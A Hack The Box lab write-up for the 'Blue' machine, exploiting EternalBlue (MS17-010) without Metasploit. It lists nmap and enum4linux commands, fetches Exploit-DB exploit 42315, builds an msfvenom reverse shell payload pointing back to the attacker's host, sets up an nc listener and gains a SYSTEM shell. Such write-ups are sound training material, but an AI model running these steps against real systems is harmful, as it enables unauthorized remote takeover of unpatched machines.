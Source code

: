 ![](../img/Blue Writeup wo Metasploit/1_eSNoiP18tknq4quq3BqMbQ.png)

## Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

    nmap -sC -sV -O -oA initial 10.10.10.40

* **-sC**: run default nmap scripts

* **-sV**: detect service version

* **-O**: detect OS

* **-oA**: output all formats and store in file *nmap/initial*

We get back the following result showing that nine ports are open:

* **Port 139: **running Microsoft Windows netbiois-ssn

* **Port 445: **running microsoft-ds

* **Ports 135, 49152, 49153, 49154, 49155, 49156 & 49157: **running msrpc

![](../img/Blue Writeup wo Metasploit/1_aWpgvwmieDHzim-Y9yuWdA.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

    nmap -sC -sV -O -p- -oA full 10.10.10.40

We get back the following result. No other ports are open.

![](../img/Blue Writeup wo Metasploit/1_Dnbg_3iLC7Jhjfppa5ifUA.png)

Similarly, we run an nmap scan with the **-sU **flag enabled to run a UDP scan.

    nmap -sU -O -p- -oA udp 10.10.10.40

I managed to root the box and write this blog, while this UDP scan still did not terminate. So instead I ran another UDP scan only for the top 1000 ports.

![](../img/Blue Writeup wo Metasploit/1_SJ5I5l3C1AkXoHQHLBhS6A.png)

## Enumeration

As usual, we’ll run the general nmap vulnerability scan scripts to determine if any of the services are vulnerable.

    nmap --script vuln -oA vuln 10.10.10.40

![](../img/Blue Writeup wo Metasploit/1_jtetoe9Kw49xPZEG-aOWyw.png)

The box is vulnerable to EternalBlue! And guess what the EternalBlue exploit does? It gives me system access, so this box won’t be too difficult to solve. If you’re not familiar with EternalBlue, it exploits Microsoft’s implementation of the Server Message Block (SMB) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

## Exploitation

Search for a non Metasploit exploit in the Exploit Database.

    searchsploit --id MS17-010

![](../img/Blue Writeup wo Metasploit/1_Kg0NgJlUKTIs3fBA7iCk6w.png)

We’re working with Windows 7 so we’ll use exploit # 42315. Clone the exploit into the working directory.

    searchsploit -m 42315

After looking at the source code, we need to do three things:

 1. Download mysmb.py since the exploit imports it. The download location is included in the exploit.

 2. Use MSFvenom to create a reverse shell payload (allowed on the OSCP as long as you’re not using meterpreter).

 3. Make changes in the exploit to add the authentication credentials and the reverse shell payload.

First, download the file and rename it to mysmb.py

    wget [https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py](https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py)
    mv 42315.py.1 mysmb.py

Second, use MSFvenom to generate a simple executable with a reverse shell payload.

    msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.6 LPORT=4444 > eternal-blue.exe

Third, we need change the exploit to add credentials. In our case we don’t have valid credentials, however, let’s check to see if guest login is allowed.

If you run enum4linux, you can see that guest login is supported.

    enum4linux -a 10.10.10.40

* **-a**: Do all simple enumeration

We’ll add that to the exploit script.

![](../img/Blue Writeup wo Metasploit/1_6DCJVdyX8Hg766vfn8B0kA.png)

Similarly, we’ll add the reverse shell executable location and get the script to execute it.

![](../img/Blue Writeup wo Metasploit/1_qj1K_l6AXdFgm3PRNVi1mw.png)

Now that we’re done all three tasks, setup a listener on your attack machine.

    nc -nlvp 4444

Then run the exploit.

    python 42315.py 10.10.10.40

We have a shell with system privileges!

![](../img/Blue Writeup wo Metasploit/1_rVzn6hzA2Cz6U0tKZQAT4Q.png)

Grab the user flag.

![](../img/Blue Writeup wo Metasploit/1_F398e8JSIX_w0SYptS0D3Q.png)

Grab the root flag.

![](../img/Blue Writeup wo Metasploit/1_H9PLqvJQCxvFYeI28tTpfQ.png)

## Lessons Learned

I keep repeating this in most of my HTB writeup blogs and I’ll say it again, it goes without saying that you should always update your systems **especially** when updates are released for critical vulnerabilities! If the system administrator had installed the MS17–010 security update, I would have had to find another way to exploit this machine.

## Conclusion

11 machines down, 30 more to go!

![](../img/Blue Writeup wo Metasploit/1_x6kzJSs2NXuQvm3QNqrZHg.png)